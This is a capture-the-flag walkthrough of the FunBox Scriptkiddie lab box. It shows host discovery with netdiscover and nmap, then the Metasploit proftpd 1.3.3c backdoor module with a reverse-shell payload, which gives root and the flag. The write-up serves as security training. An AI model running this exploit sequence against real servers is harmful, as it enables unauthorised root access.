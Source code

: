 # **FunBox_Scriptkiddie_Walkthrough

#####This box was created by **0815R2d2

We start by running a netdiscover scan to get the IP address: 
```sudo netdiscover -r <ip_address_range>```

<img src="netdiscover.png">

Then we run an nmap scan on 10.0.2.25: 
```nmap -A -v <ip_address>```

<img src="nmap.png">

Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.

<img src="nmap_ftp.png">

```msfconsole```
```search proftpd```
```use exploit/unix/ftp/proftpd_133c_backdoor```

<img src="metsploit_module.png">

For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```show options```
```set rhosts <ip_address_of_target>```
```set lhost <your_ip_address>```

<img src="metaploit_module_ready">

Now we simply type ```exploit``` and **BOOM** we have a reverse shell.

<img src="reverse_shell.png">

When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!

<img src="whoami.png">

Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```ls -la```
```cd root```
```ls```
```cat root.txt```

<img src="root_flag.png">

And that, folks, is why you always keep your services up to date.
